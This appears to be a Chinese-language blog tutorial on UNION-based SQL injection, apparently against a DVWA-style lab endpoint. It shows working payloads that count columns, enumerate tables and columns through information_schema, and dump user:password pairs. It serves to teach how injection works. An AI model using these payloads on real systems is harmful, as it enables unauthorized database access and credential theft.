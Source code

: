 ```yaml
---
layout: post
title: SQL注入详解
categories: 网络安全
description: SQL注入详解
keywords: SQL注入详解
---
```


SQL注入的几种方式详解

### 1、union联合注入原理

联合查询注入是联合两个表进行注入攻击，使用关键词 union select 对两个表进行联合查询。

两个表的字段要数要相同，不然会出现报错。

可以通过`order by`来猜有几个字段

```sql
SELECT * FROM `users` WHERE user_id = 1 order by 8 
```

猜到了有几个字段可以进行以下查询

```sql
SELECT * FROM `users` WHERE user_id = 1 union select 1,2,3,4,5,6,7,8 
# 可以在数字的位置替换成函数
SELECT * FROM `users` WHERE user_id = 1 union select 1,2,3,4,5,6,database(),user()
# 如果不想显示user_id=1的数据，可以修改成-1或者NULL，就只显示后面的内容了
SELECT * FROM `users` WHERE user_id = -1 union select 1,2,3,4,5,6,database(),user()
# 有很多条结果的时候可以加 limit 来限制
```

#### 1.1 联合查询注入获取敏感信息

当确定了可以进行SQL注入的时候，可以通过一些内置函数来获取数据库的信息

```sql
SELECT * FROM `guestbook` WHERE user_id = -1 union select 1,database(),user();
```

#### 1.2 联合查询注入通过 information_schema 获取表

在黑盒的情况下是不知道当前库有什么表的，可以通过 mysql 自带的information_schema 查询当前库的表。
查询当前库的表 limit 1 相当于 limit 1,1 表示显示第一个 1 改成 2 就是第二个如此类推

```sql
# 有请求连接如下，已知可以字符注入 /sqli/?id=1&Submit=Submit

# 构造语句 获取当前位置的第一个表
/sqli/?id=-1' union select 1, (select TABLE_NAME from information_schema.TABLES where TABLE_SCHEMA=database() limit 1) --+&Submit=Submit#

# 获取第二个表
/sqli/?id=-1' union select 1, (select TABLE_NAME from information_schema.TABLES where TABLE_SCHEMA=database() limit 1,1 ) --+&Submit=Submit#

# 获取字段，可以通过修改limit 获取不同的字段
((select COLUMN_NAME from information_schema.COLUMNS where TABLE_NAME='users' limit 1))

# 查到字段之后，读取表内的内容
/sqli/?id=-1' union select 1,(select group_concat(user,0x3a,password) from users) --+&Submit=Submit#
```
